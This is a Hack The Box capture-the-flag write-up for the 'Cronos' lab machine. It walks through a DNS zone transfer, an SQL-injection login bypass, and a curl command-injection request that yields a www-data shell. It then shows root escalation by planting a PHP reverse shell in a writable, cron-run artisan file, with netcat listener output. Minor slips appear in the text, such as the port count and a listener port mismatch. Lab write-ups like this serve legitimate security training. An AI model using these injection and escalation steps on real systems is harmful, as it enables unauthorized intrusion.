 ```yaml
---

title: 🟠 HTB - Cronos
author: Acivik
date: 2025-01-24 17:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Cronos, walkthrough, medium, linux]

---
```


![https://i.ibb.co/hxGG59y/Cronos.png](https://i.ibb.co/hxGG59y/Cronos.png)

---

# <span style="color:#AA0E1C"><b># Reconnaissance</b></span>

## <span style="color:#0096FF">Nmap</span>

nmap detected 2 open TCP ports: 22(SSH), 53/tcp-udp(DOMAIN), 80 (HTTP)

```bash
root@kali:~/HTB/cronos# nmap -p22,53,80 10.10.10.13 -sVC --min-rate 1000
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 18:17 UTC
Nmap scan report for 10.10.10.13 (10.10.10.13)
Host is up (0.084s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.79 seconds
root@kali:~/HTB/cronos#
```

Looking at the OpenSSH and Apache versions, the target machine is likely running Ubuntu 16.04 LTS (Xenial Xerus).

# # Enumeration

## <span style="color:#0096FF">DNS</span>

```bash
root@kali:~/HTB/cronos# nslookup
> server
Default server: 192.168.23.2
Address: 192.168.23.2#53
> server 127.0.0.1
Default server: 127.0.0.1
Address: 127.0.0.1#53
> server
Default server: 127.0.0.1
Address: 127.0.0.1#53
> 127.0.0.1
;; communications error to 127.0.0.1#53: connection refused
;; communications error to 127.0.0.1#53: connection refused
;; communications error to 127.0.0.1#53: connection refused
;; no servers could be reached

> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
>

```

```bash
root@kali:~/HTB/cronos# dig AXFR @10.10.10.13 cronos.htb

; <<>> DiG 9.19.21-1+b1-Debian <<>> AXFR @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 63 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Jan 24 10:15:51 UTC 2025
;; XFR size: 7 records (messages 1, bytes 203)

root@kali:~/HTB/cronos#
```

save it to `/etc/hosts` 

`10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb`

## <span style="color:#0096FF">cronos.htb</span>

![https://i.ibb.co/HXG5qWx/Ekran-g-r-nt-s-2025-01-14-212232.png](https://i.ibb.co/HXG5qWx/Ekran-g-r-nt-s-2025-01-14-212232.png)

default apache page

## <span style="color:#0096FF">admin.cronos.htb</span>

![https://i.ibb.co/3W86th6/Ekran-g-r-nt-s-2025-01-14-220258.png](https://i.ibb.co/3W86th6/Ekran-g-r-nt-s-2025-01-14-220258.png)

I logged in using SQL injection authentication bypass.

![https://i.ibb.co/9pnybMm/Ekran-g-r-nt-s-2025-01-14-220315.png](https://i.ibb.co/9pnybMm/Ekran-g-r-nt-s-2025-01-14-220315.png)

There’s a tool in admin dashboard.

When I saw this page, I thought of a command injection vulnerability.

# <span style="color:#AA0E1C"><b># Foothold: Shell as www-data</b></span>

```bash
root@kali:~/HTB/cronos# curl -X POST -b 'PHPSESSID=qj9ubgsfkfjhfq0vnk7ifn0ph1' --data-binary 'command=id&host=' 'http://admin.cronos.htb/welcome.php' -s | grep "<br>"
			uid=33(www-data) gid=33(www-data) groups=33(www-data)<br>
root@kali:~/HTB/cronos#
```

we can get a reverse shell

```bash
root@kali:~/HTB/cronos# nc -lnvp 4141
listening on [any] 4141 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.13] 38586
bash: cannot set terminal process group (1313): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$
```

# <span style="color:#AA0E1C"><b># Privilege Escalation: www-data → root</b></span>

```bash
www-data@cronos:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#
www-data@cronos:/tmp$
```

root is runs php file

we have write permission for that file

```bash
www-data@cronos:/var/www/laravel$ ls -l artisan 
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 artisan
www-data@cronos:/var/www/laravel$
```

I inserted PHP reverse shell code into it.

```bash
root@kali:~/tools# nc -lnvp 1214
listening on [any] 1213 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.13] 38276
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:43:01 up  1:27,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```